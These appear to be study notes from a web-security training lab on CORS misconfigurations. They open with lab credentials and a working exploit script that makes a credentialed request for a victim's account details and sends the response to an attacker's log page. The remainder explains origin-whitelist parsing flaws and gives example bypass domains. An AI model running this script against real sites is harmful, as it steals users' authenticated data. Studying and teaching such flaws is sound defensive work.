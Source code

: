 - You can log in to your own account using the following credentials: wiener:peter
```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a160087046bd0aa80e1034c00ee009e.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='/log?key='+this.responseText;
};
</script>
```
# Errors parsing Origin headers
- Some applications that support access from multiple origins do so by using a whitelist of allowed origins. 
- When a CORS request is received, the supplied origin is compared to the whitelist. 
- If the origin appears on the whitelist then it is reflected in the Access-Control-Allow-Origin header so that access is granted. 
- For example, the application receives a normal request like:
```
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```
- The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:
```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```
- Mistakes often arise when implementing CORS origin whitelists. 
- Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). 
- And some applications allow access from various other organizations' domains including their subdomains. 
- These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. 
- Any mistakes in the implementation can lead to access being granted to unintended external domains.
- For example, suppose an application grants access to all domains ending in:
```
normal-website.com
```
- An attacker might be able to gain access by registering the domain:
```
hackersnormal-website.com
```
- Alternatively, suppose an application grants access to all domains beginning with
```
normal-website.com
```
- An attacker might be able to gain access using the domain:
```
normal-website.com.evil-user.net
```
